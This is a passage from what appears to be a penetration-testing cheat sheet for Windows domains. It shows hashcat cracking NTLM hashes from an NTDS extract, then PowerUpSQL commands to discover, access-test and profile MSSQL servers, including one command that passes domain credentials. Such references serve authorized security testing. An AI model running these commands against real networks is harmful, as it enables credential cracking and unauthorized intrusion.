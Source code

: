 ```
hashcat -m 1000 ntlm-extract.ntds /usr/share/wordlists/rockyou.txt -o cracked
cat cracked 
```


Database Hunting - MSSQL
------------------------

Tool : PowerUpSQL

```
Import-Module .\PowerupSQL.psd1
```


#### Discovery (SPN Scanning)

#### Discover Local SQL Server Instances

```
Get-SQLInstanceLocal -Verbose
```


#### Discover Remote SQL Server Instances

```
Get-SQLInstanceBroadcast -Verbose
Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1
Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose
```


#### Discover Active Directory Domain SQL Server Instances using alternative domain credentials

```
runas /noprofile /netonly /user:domain\user PowerShell.exe
import-module PowerUpSQL.psd1
Get-SQLInstanceDomain -Verbose -DomainController 172.16.0.1 -Username domain\user -password 'P@ssword123'
```


#### Check Accessibility

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```


#### Gather Information

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```


#### Look for links to remote servers
